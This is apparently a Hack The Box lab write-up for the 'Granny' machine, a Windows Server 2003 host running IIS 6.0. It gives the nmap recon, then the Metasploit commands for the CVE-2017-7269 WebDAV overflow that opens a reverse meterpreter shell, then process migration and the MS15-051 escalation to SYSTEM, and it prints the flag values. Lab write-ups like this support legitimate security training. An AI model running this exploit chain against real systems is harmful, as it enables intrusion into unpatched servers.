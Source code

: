 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Granny
tags: []
---
```

**Start 21:25 15-08**

---
```
10.10.10.15
```
## Recon

==Nmap==
```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.15                      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-15 20:26 IST
Nmap scan report for 10.10.10.15
Host is up (0.081s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.23 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -T5 10.10.10.15 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-15 20:26 IST
Nmap scan report for 10.10.10.15
Host is up (0.080s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Thu, 15 Aug 2024 19:27:30 GMT
|_  Server Type: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.40 seconds
```

We look this version of `Microsoft IIS httpd 6.0` up and find a vulnerability right away:

![](../../../assets/522c4ec69b9ba0d3c1f6c7d3307a639d.png)

Luckily for us there's a `Metasploit` module for this exact exploit:

```bash
msf6 > search CVE-2017-7269

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank    Check  Description
   -  ----                                                 ---------------  ----    -----  -----------
   0  exploit/windows/iis/iis_webdav_scstoragepathfromurl  2017-03-26     
   manual  Yes    Microsoft IIS WebDav ScStoragePathFromUrl Overflow
```

## Metasploit

==Options==
Fairly straightforward, we set it up nice and easy 

![](../../../assets/520139b1c759337a0d69ebde6cdef949.png)

```bash
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set RHOSTS 10.10.10.15
RHOSTS => 10.10.10.15
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set LHOST 10.10.14.4
LHOST => 10.10.14.4
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run
```

You should get a `meterpreter shell` in no time.

==Meterpreter==
After trying `getuid` it seems we are not privileged enough.

```bash
meterpreter > getuid
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
```

We spawn a shell using `shell` and check the `OS info` using `systeminfo`:

```powershell
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 15 Minutes, 18 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 753 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,290 MB
Page File: In Use:         180 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

Looks like we're running a `x86 based Windows 2003 Server`. Let's check for ways to escalate our privileges. I background the current session and get back into `msfconsole`.
For this we'll run [local exploit suggester](Windows%20Privilege%20Escalation.md#Metasploit#Exploit%20Suggester):

```bash
use post/multi/recon/local_exploit_suggester
```

I've set it to `SESSION 1` and `run` the exploit.

![](../../../assets/8e32c8c014526e512f65a2349518ab72.png)

Before we move on we need to `migrate processes` to a process which is running under `system`
We do this by simply typing `ps` in the `meterpreter` session:

![](../../../assets/5699fb97d396b2dc4eab4e6143977011.png)

Afterwards we'll want to `migrate` to any of the processes. I chose `2344, davcdata.exe` in my case.

```bash
meterpreter > migrate 2344
[*] Migrating from 2232 to 2344...
[*] Migration completed successfully.
```

Now we can use any of the exploits. I'll use `
`exploit/windows/local/ms15_051_client_copy_image` .

![](../../../assets/b8e0f359c7aca5ba150873747fe4f15e.png)

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Easy Peasy


## Flags

==user.txt==
```powershell
C:\Documents and Settings\Lakis\Desktop>type user.txt
type user.txt
700c5dc163014e22b3e408f8703f67d1
```

==root.txt==
```powershell
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
aa4beed1c0584445ab463a6747bd06e9
```


![](../../../assets/a44c68320ad7b753b3671688ffa10158.png)

---

**Finished 22:01**

[^Links]: [[Hack The Box]] [[OSCP Prep]]

